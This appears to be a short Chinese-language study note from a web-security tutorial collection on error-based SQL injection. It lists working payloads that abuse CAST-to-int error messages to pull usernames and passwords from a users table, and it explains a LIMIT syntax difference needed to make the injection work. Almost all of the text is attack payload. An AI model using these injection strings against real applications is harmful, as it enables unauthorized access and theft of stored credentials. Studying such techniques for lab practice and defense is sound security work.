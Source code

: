 ### 报错注入

```
' and 1=CAST((SELECT username FROM users limit 1,1)AS int)--
# 语法出现错误，不支持 limit #,# 格式，如下图：
```

![image-20250521110040219](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521110040219.png)

**MySQL 风格**（不支持的写法）：`LIMIT offset, count`，例如：`LIMIT 10, 20` 表示跳过前 10 条，取 20 条。

**标准 SQL 风格**（正确写法）：`LIMIT count OFFSET offset`，例如：`LIMIT 20 OFFSET 10` 表示跳过前 10 条，取 20 条。

```
' and 1=CAST((SELECT username FROM users limit 1)AS int)--
```

![image-20250521105952830](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521105952830.png)

```
' and 1=CAST((SELECT password FROM users limit 1)AS int)--
```

![image-20250521105932111](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521105932111.png)

